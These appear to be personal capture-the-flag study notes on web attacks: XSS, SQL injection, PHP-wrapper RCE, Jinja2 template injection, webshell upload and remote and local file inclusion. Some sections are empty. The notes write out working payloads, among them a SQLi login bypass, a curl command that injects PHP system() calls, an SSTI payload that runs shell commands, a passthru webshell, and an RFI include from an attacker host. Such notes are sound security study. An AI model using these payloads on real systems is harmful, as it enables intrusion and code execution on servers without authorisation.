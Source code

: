 XSS: Common exploit
        - Exploits the single-origin policy, embed harmful JS into website.                                                                                                                                              - When origin is opened by another user, malicious JS steals info related to their browser.

SQLi: Common login screen attack
        - if " ' " is typed into a parameter and the webpage returns error, very likely a SQLi
        - ' OR 1=1 --                                                                                                                                                                                                    - Extremely popular and likely patched.

RCE:                                                                                                                                                                                                                     - Just did it with php wrappers:
        - curl -X POST 'http://3.105.27.130:8001/?lang=php://input' \ --data "<?php system('ls -la'); ?>"
        - PHP wrappers are a great exploit

SSTI: server-side template injection.
        - Unsanitized user input asked, which also executed code in {{}}. This is a hint of a Jinja2 template engine being used that is directly concatanating our data to the template.                                 - The server can then be made to execute valid template syntax.
        - CTF example payload used: {{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read() }}
        - https://portswigger.net/web-security/server-side-template-injection

        - Another CTF required sending data in {{ ... }}. This took advantage of the `render_template_string()` function that prints and evaluates the string inside as a template.                                      - This is a form of code execution within web-app contexts. Any string inside is read and executed by the jinja2 engine.
        - Hence any code inside {{ ... }} gets executed.

Unsanitized file upload:                                                                                                                                                                                                 - Basic PHP shell gained. PHP is executed server-side, therefore giving a payload php file can be executed if file upload is unsanitized.
        - In a ctf, RCE was gained by uploading a webshell payload (<?php echo passthru($_GET['cmd']); ?>) php file.
        - Server executed the php code within (hence no proper san.). Make sure you pass "cmd" as a parameter in the URL.

Misfigured API endpoints:
        - ???

PHP Remote file inclusions:
        - occurs when no validatin is done on user-supplied paramters being directly incorporated into "include()" function in php (eg ?FILE=... used in include())                                                      - Attacker can pass the domain name of an external source (http://attacker_site/malicous_page) as the parameter, including the remote file directly and executing it.

Local file inclusions:
        - Cannot just redirect to an external website. Instead, include() can fetch files in the system.                                                                                                                 - PHP wrapper variation:

SSRF:
        -
